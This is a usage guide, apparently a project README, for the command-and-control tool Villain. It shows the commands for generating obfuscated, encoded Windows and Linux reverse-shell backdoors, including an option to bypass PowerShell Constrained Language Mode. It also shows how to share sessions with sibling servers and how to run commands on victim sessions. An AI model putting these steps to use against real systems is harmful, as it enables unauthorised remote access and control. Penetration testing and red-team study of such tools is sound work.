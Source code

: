 # Usage Guide
:warning: Villain was explicitly developed and tested on **kali linux**.  
:warning: This guide is a work in progress currently describing a few key features. Check out Villain's introduction on youtube for more info.

## Table of contents
1. [Generate Backdoor Payloads](Generate-Backdoor-Payloads)
2. [Connect With Sibling Server](Connect-With-Sibling-Server)


## Generate Backdoor Payloads
Use the "generate" prompt command to generate backdoor payloads for Windows or Linux machines. 

```
generate os=<OS Type> lhost=<IP or INTERFACE> [ exec_outfile=<REMOTE PATH> domain=<DOMAIN>] [ obfuscate encode constraint_mode ]
```
Each generated payload is going to work only once. An already used payload cannot be reused to establish a session.
The backdoors are designed to start as new background processes. Currently supported types of backdoors:  
 - for Windows: Powershell 
 - for Linux: bash

#### Available arguments for the "generate" prompt command:
| Argument          | Required | Supported OS | Requires Input Val | Description |
|:-----------------:|:-------:|:-------------:|:------------------:|------------------------|
| os                | True    | All           | Yes                | The OS type to generate backdoor for [windows/linux]. |
| lhost             | True    | N/A           | Yes                | Your local IP or Interface to connect back. |
| domain            | Depends | N/A           | Yes                | If you have provided trusted cert and priv_key files to start Villain with SSL, you can provide domain instead of lhost. |
| obfuscate         | False   | Windows       | No                 | Auto-obfuscate the generated payload. This aims to assist you, not always do the job for you. |
| encode            | False   | Windows       | No                 | Base64 encode the generated payload. |
| exec_outfile      | False   | Windows       | Yes                | Provide a file path on the victim to write & execute commands from (instead of using IEX) |
| constraint_mode   | False   | Windows       | No                 | Make the generated payload work on PowerShell Constraint Language Mode. By using this option you sacrifice a bit of the decoding clarity of your shell. |

#### Examples:
```
# For Windows:
Villain > generate os=windows lhost=eth0 obfuscate
Villain > generate os=windows lhost=192.168.12.36 exec_outfile="C:\Users\\\$env:USERNAME\.local\hack.ps1" encode

# For Linux:
Villain > generate os=linux lhost=192.168.12.62
```

## Connect With Sibling Server
Use the `connect` prompt command to connect and share your backdoor sessions with another machine running Villain. 
```
connect <IP> <CORE SERVER PORT>
```
By default, the Core server port is `65001` (you can change that with `-p` when starting Villain).

## The exec command
Use the `exec `prompt command to execute a **quoted command** or **script from your file system** against a session. 
```
exec </path/to/local/file> <SESSION ID or ALIAS>
exec 'net user;Get-Date' <SESSION ID or ALIAS>
```

